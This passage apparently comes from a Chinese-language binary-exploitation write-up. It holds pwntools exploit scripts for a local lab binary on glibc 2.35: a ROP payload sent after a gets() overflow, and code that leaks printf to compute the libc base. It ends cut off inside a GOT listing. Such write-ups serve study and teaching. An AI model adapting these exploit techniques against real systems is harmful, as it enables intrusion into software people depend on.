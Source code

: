 ```python
# trigger gets(stack), send rop gadget
sleep(0.1)
sl(rop_payload)

interact()
```



![](image-20231207170119228.png)



我也在glibc 2.35上做了测试，同样可以利用：

```python
#!/usr/bin/env python3
# coding=utf8

import inspect

from pwn import *

context.log_level = 'debug'

local = 1

cn = process('./vuln-2.35')
libc = ELF("./libc-2.35.so")

def tobytes(x): return x.encode('latin1') if isinstance(x, str) else x
def sd(x): return cn.send(tobytes(x))
def sl(x): return cn.sendline(tobytes(x))
def sa(a, b): return cn.sendafter(tobytes(a), tobytes(b))
def sla(a, b): return cn.sendlineafter(tobytes(a), tobytes(b))
def rv(x=0x1000): return cn.recv(x)
def rl(): return cn.recvline()
def ru(x): return cn.recvuntil(tobytes(x))
def raddr(): return u64(cn.recvuntil(b'\n')[:-1].ljust(8, b'\x00'))
def raddrn(x): return u64(rv(x).ljust(8, b'\x00'))
def interact(): return cn.interactive()
def ss(s): return success(s)


def logsym(val):
    for line in inspect.getframeinfo(inspect.currentframe().f_back)[3]:
        m = re.search(r'\blogsym\s*\(\s*([A-Za-z_][A-Za-z0-9_]*)\s*\)', line)
    if m:
        varname = m.group(1)
        ss(f"{varname} => {hex(val)}")
    else:
        ss(hex(val))


############################################

context.arch = 'amd64'

leak = int(rl(), 16)
logsym(leak)
lbase = leak - libc.sym['printf']
logsym(lbase)
libc.address = lbase

'''
.got.plt:0000000000219090 off_219090      dq offset strncpy       ; DATA XREF: j_strncpy+4↑r
```